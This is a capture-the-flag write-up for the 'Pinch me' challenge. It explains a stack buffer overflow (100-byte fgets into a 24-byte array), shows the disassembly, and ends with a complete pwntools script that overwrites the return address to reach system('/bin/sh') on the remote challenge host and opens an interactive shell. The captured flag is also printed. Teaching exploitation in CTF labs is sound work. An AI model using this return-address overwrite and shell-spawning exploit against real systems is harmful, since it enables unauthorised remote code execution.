



# Pinch me

## Description

This should be easy!

`nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480`

[pinch_me](pinch_me)

## Solution

First step let's decompile the binary with Ghidra. In the `main` function (the binary is not stripped) we can easily find the function `vuln` and after a brief looking it was easy to spot the buffer overflow vulnerability: an `fgets` writes 100 bytes of input in an array of 24 bytes.



How many bytes we need to give to the `fgets` in order to hit the return address? Let's open up the binary with GDB and using an older trick let's give an input like `AAAABBBBCCCCDDDD...`, now we can inspect the memory and after the `RET` instruction we can see that the process try to return to address `0xKKKK`, so we have find the offset of the return address: 40.



The next step is to rewrite the return address with somethings interesting to get the control of the remote machine.

```
00401190: 48 89 c7                   MOV        RDI,RAX
00401193: e8 c8 fe ff ff             CALL       fgets 
00401198: 81 7d f8 de c0 37 13       CMP        dword ptr [RBP + local_10], 0x1337c0de
0040119f: 75 0e                      JNZ        LAB_004011af
004011a1: 48 8d 3d 9f 0e 00 00       LEA        RDI, [0x402047] = "/bin/sh"
004011a8: e8 93 fe ff ff             CALL       system     
004011ad: eb 23                      JMP        LAB_004011d2
```

We need to jump not at the `call system` address, cause we don't have the right parameter in `RDI`, so I try to jump one instruction before, this ensure to load the address of `/bin/sh` into the `RDI` register. 

We can improve the script by inserting a rop-chian jump to `0x4011a1` without any parameter:

```python
from pwn import *

offset = 40
sysload = 0x4011a1

context.arch = 'amd64'
elf = ELF('./pinch_me')
p = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)

rop = ROP(elf)
rop.call(p64(sysload), [])

payload = [
	b"A" * offset,
	rop.chain()
]
payload = b"".join(payload)

log.info(f"{p.recvline()}") # puts("Is this a real life, or is it just a fanta sea?");
p.sendline(payload)					# send our rop-chain
log.info(f"{p.recvline()}") # puts("Am I dreaming?");
p.interactive()
```



#### **FLAG >>** `` dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}

